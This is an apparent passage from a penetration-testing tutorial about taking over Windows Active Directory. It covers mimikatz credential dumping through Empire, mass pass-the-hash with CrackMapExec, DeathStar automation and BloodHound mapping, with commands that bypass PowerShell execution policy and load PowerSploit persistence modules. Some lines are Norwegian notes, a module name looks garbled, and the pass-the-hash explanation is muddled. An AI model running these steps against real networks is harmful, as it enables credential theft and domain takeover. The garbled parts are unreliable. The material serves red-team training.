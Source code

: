 Once you have administrator access to a box you can run mimikatz, which is bundled with Empire. If you're lucky you'll get DA creds in plaintext. If you have a local administrator hash on the hosts you can use CrackMapExec to do a mass mimikatz. Basically what it does is a pass the hash on multiple hosts, runs the mimikatz sekurlsa::loggonpasswords and returns output. Hopefully one of them is a DA and game over. Now this might be a bit confusing so lkys37en explained this the following way:

>Say you're an IT administrator. You're logged into your workstation and your account has domain admin rights. I come along and pop a admin shell on another workstation. I grab the hash and do a pass the hash with the local administrator account to your box and then run mimikatz. If you're running win 7 and 8 I'll get plain text plus NTLM hash. If you're running win 8.1 and above I only get the NTLM hash.

 What this means is that you gain the local admin hash, and pass it to the DC which proves you are admin on DA, which allows you to do mimikatz and extract DA credentials. You're hoping the IT admins used the same local administrator account on all workstations

 To check if the user is part of the Domain Admins group, run `net user "Domain Admins" /domain`

 Now if you're so lucky that you're a DA you can start looking into lateral movement modules in Empire to get into the DC and have some fun.


### DeathStar
I love all the Star Wars references. DeathStar is a pretty new tool for automating the entire process of becoming DA.
[byt3bl33d3r has documented it on his Github](https://byt3bl33d3r.github.io/automating-the-empire-with-the-death-star-getting-domain-admin-with-a-push-of-a-button.html).


Basically, you run the NTLMrelay attack from the previous step, but with Empire set up with a REST API. Then you just run DeathStar, grab a coffee and come back as Domain Admin.

Note: I have had some trouble making DeathStar and Empire cooperate. There's a little explanation of why in the DeathStar Github page. Hopefully, it will be stable soon.


### Mapping AD with BloodHound

One of the glorious design features of AD is that everyone needs to know where everything is. So when you get user credentials and/or a shell, you can basically map the entire domain. Any user can query Active Directory for groups and sessions.

Now we can use that to make a cool GUI map of the entire AD which can be quirired in using BloodHound.





set up neo4j
https://neo4j.com/developer/kb/how-do-i-enable-remote-https-access-with-neo4j-30x/

/opt/neo4j-community-3.1.1/bin/neo4j
start neo4j and set new password
edit neo4j.conf
dbms.connector.http.enabled=true
dbms.connector.http.listen_address=0.0.0.0:7474

launch bloodhound and log in to neo4j db

powershell -exec bypass
upload /path/bloodhound.ps1
Import-Module ./BloodHound.ps1
Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"

kan nå laste opp powersploit moduler.
upload /path/powersploit/persistence.msl1
import-module ./persistence.msl1
Get-SecurityPackages
